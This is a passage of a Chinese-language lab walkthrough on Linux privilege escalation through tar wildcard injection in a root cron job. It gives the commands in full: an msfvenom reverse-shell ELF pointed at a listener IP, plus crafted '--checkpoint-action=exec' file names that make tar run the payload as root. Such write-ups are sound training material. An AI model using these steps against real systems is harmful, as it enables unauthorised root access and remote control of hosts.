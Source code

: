 参考：<https://gtfobins.github.io>

可以帮助确定命令是否有有命令行选项

### 实操

#### 1.查看system-wide crontab内容:

```php
cat /etc/crontab 
```

![image-20210704104709412](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-15e80eb57967ff1866c41502789bb6a04f886e7a.png)

```php
root /usr/local/bin/compress.sh
```

#### 2.查看文件的内容：

```php
cat /usr/local/bin/compress.sh 
```

![image-20210704104806120](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-81f4a5ccc04b1712e6f020f06a059a3fd2ac3eb0.png)

注意：tar命令在 `/home/user`中使用通配符`*`运行

#### 3.查阅参考

显示tar具有命令行选项，可以用来运行其他命令作为检查点功能的一部分

#### 4.使用msfvenom创建反向壳ELF有效载荷：

```php
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.175.161 LPORT=4444 -f elf -o shell.elf
```

![image-20210704110051360](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b27225596a549f4abdc201f82eb916a8462a44b7.png)

#### 5.搞文件到tar所在运行目录，并加权：

python开启HTTP服务

![image-20210704110127651](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-81f3b2db774350da0690a37b9139f3e635e28fe9.png)

![image-20210704110119309](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8de4131087638257b707090115a2b3abc4acc03f.png)

```php
chmod +x /home/user/shell.elf   
```

![image-20210704110200778](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fd8e099851738bc3cbef05b31c3b1f47167ad317.png)

#### 6.在/home/user目录中创建两个文件：

```php
touch /home/user/--checkpoint=1 

touch /home/user/--checkpoint-action=exec=shell.elf
```
